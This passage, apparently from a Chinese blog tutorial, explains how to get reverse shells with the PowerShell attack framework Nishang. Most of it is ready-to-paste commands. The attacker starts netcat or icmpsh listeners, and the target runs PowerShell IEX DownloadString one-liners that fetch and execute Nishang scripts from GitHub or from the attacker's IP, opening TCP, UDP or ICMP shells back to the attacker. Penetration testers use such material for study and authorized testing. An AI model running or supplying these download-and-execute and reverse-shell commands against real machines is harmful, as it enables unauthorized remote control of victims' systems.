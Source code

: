[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

#### 2）nishang反弹shell

Nishang是一个基于PowerShell的攻击框架，集合了一些PowerShell攻击脚本和有效载荷，可反弹TCP/ UDP/ HTTP/HTTPS/ ICMP等类型shell。

**## Reverse TCP shell**

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
# 攻击者(192.168.159.134)开启监听：
nc -lvp 6666

# 目标机执行：
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com
/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.159.134 -port 6666

# 或者将nishang下载到攻击者本地：
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.159.134 -port 6666
```

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

**## Reverse UDP shell**

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
# 攻击者(192.168.159.134)开启监听：
nc -lvup 53

# 目标机执行：
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellUdp.ps1');
Invoke-PowerShellUdp -Reverse -IPAddress 192.168.159.134 -port 53
```

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

**## Reverse ICMP shell**

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
# 首先攻击端下载icmpsh_m.py文件
https://github.com/inquisb/icmpsh)和nishang中的Invoke-PowerShellIcmp.ps1

# 攻击者(192.168.159.134)执行
sysctl -w net.ipv4.icmp_echo_ignore_all=1 #忽略所有icmp包
python icmpsh_m.py 192.168.159.134 192.168.159.138 #开启监听

# 目标机(192.168.159.138)执行
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellIcmp.ps1');Invoke-PowerShellIcmp -IPAddress 192.168.159.134
```
